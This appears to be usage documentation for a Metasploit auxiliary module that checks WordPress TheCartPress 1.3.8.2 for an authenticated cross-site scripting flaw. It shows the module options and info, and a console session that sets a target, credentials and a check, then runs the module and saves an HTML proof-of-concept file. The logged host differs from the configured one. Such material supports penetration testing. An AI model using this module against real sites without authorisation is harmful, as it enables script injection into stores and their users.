

#### Add WordPress Plugin TheCartPress XSS Vulnerability.

  Application: WordPress Plugin 'TheCartPress' 1.3.8.2
  Homepage: https://wordpress.org/plugins/thecartpress/
  Source Code: https://downloads.wordpress.org/plugin/thecartpress.1.3.8.2.zip
  References: https://wpvulndb.com/vulnerabilities/7951

#### Vulnerable packages*
        
  1.3.8.2
  
#### Usage:

##### Linux (Ubuntu 12.04.5 LTS):
```
msf > use auxiliary/scanner/http/wp_thecartpress_xss_scanner 
msf auxiliary(wp_thecartpress_xss_scanner) > show options 

Module options (auxiliary/scanner/http/wp_thecartpress_xss_scanner):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target address range or CIDR identifier
   RPORT        80               yes       The target port
   TARGETURI    /                yes       The base path to the wordpress application
   THREADS      1                yes       The number of concurrent threads
   VHOST                         no        HTTP server virtual host
   WP_PASSWORD                   yes       Valid password for the provided username
   WP_USER                       yes       A valid username

msf auxiliary(wp_thecartpress_xss_scanner) > info

       Name: WordPress TheCartPress Plugin XSS Scanner
     Module: auxiliary/scanner/http/wp_thecartpress_xss_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2015-04-29

Provided by:
  High-Tech Bridge
  Roberto Soares Espreto <robertoespreto@gmail.com>

Basic options:
  Name         Current Setting  Required  Description
  ----         ---------------  --------  -----------
  Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                        yes       The target address range or CIDR identifier
  RPORT        80               yes       The target port
  TARGETURI    /                yes       The base path to the wordpress application
  THREADS      1                yes       The number of concurrent threads
  VHOST                         no        HTTP server virtual host
  WP_PASSWORD                   yes       Valid password for the provided username
  WP_USER                       yes       A valid username

Description:
  This module attempts to exploit a authenticated Cross-Site Scripting 
  in TheCartPress Plugin for Wordpress, version 1.3.8.2 and likely prior 
  in order if the instance is vulnerable.

References:
  http://cvedetails.com/cve/2015-3302/
  http://www.exploit-db.com/exploits/36860
  https://wpvulndb.com/vulnerabilities/7951
  https://www.htbridge.com/advisory/HTB23254

msf auxiliary(wp_thecartpress_xss_scanner) > show missing 

Module options (auxiliary/scanner/http/wp_thecartpress_xss_scanner):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   RHOSTS                        yes       The target address range or CIDR identifier
   WP_PASSWORD                   yes       Valid password for the provided username
   WP_USER                       yes       A valid username

msf auxiliary(wp_thecartpress_xss_scanner) > set RHOSTS 192.168.1.31
RHOSTS => 192.168.1.31
msf auxiliary(wp_thecartpress_xss_scanner) > set WP_PASSWORD dvd43145
WP_PASSWORD => dvd43145
msf auxiliary(wp_thecartpress_xss_scanner) > set WP_USER espreto
WP_USER => espreto
msf auxiliary(wp_thecartpress_xss_scanner) > check
[*] 192.168.1.31:80 - The target appears to be vulnerable.
[*] Checked 1 of 1 hosts (100% complete)
msf auxiliary(wp_thecartpress_xss_scanner) > run

[*] 10.10.10.20:80 - Trying to login as espreto
[+] 10.10.10.20:80 - Login successful
[+] 10.10.10.20:80 - Vulnerable to Cross-Site Scripting the "TheCartPress 1.3.8.2" plugin for Wordpress
[+] Save in: /home/espreto/.msf4/local/VMJNlBEi.html
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(wp_thecartpress_xss_scanner) > firefox /home/espreto/.msf4/local/VMJNlBEi.html
```
This will open the browser:



